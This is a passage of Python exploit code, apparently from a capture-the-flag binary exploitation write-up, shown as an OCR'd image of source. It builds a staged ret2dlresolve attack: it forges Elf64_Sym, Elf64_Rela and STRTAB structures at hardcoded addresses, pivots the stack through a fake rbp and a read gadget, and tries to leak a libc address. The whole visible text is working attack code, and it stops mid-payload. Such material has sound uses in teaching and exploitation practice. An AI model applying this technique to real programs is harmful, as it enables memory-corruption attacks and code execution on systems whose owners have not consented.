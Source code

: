 ```python
payload += p64(0)*2                 # Just for padding so that we don't need to sleep()
p.send(payload)

########################################################
### Stage 2: Fake address and structure of Elf64_Sym ###
########################################################
SYMTAB = 0x400290

Elf64_Sym_addr = rw_section
symbol_number  = int( (Elf64_Sym_addr - SYMTAB) / 24 )

st_name = p32(15296)        # Change here
st_info = p8(0x12)
st_other = p8(0)
st_shndx = p16(0)
st_value = p64(0)
# st_size is null already because the stack now contain all null byte
# so we don't need to write these variable, just need to pad full 0x10
# bytes so that we don't need to sleep()
Elf64_Sym_struct = st_name + st_info + st_other + st_shndx + st_value

#########################################################
### Stage 3: Fake address and structure of Elf64_Rela ###
#########################################################
JMPREL = 0x400300

Elf64_Rela_addr = rw_section + 0x40
reloc_arg = int( (Elf64_Rela_addr - JMPREL) / 24 )

r_offset = p64(rw_section - 0x50)         # Change here
r_info = p64((symbol_number << 32) | 0x7)
# r_addend is null and stack is null already so we don't need to write this,
# also because we run out of 0x10 bytes we can write
Elf64_Rela_struct = r_offset + r_info

#####################################################
### Stage 4: Fake address and structure of STRTAB ###
#####################################################
STRTAB = 0x4002c0

STRTAB_addr = rw_section + 0x80
st_name = STRTAB_addr - STRTAB

STRTAB_struct = b"write\x00\x00\x00"
STRTAB_struct += p64(0)

##########################################################
### Stage 5. Conduct ret2dlresolve & Leak libc address ###
##########################################################
# Write Elf64_Sym structure
payload = p64(Elf64_Rela_addr - 0x10)    # Fake rbp, write and jump to Elf64_Rela address
payload += p64(mov_rsi_rbp_read)
payload += Elf64_Sym_struct
p.send(payload)

# Write Elf64_Rela structure
payload = p64(STRTAB_addr - 0x10)        # Fake rbp, write and jump to STRTAB address
payload += p64(mov_rsi_rbp_read)
payload += Elf64_Rela_struct
p.send(payload)

# Write STRTAB structure
payload = p64(rw_section - 0x50)         # Fake rbp, write and jump to ret2dlresolve address
```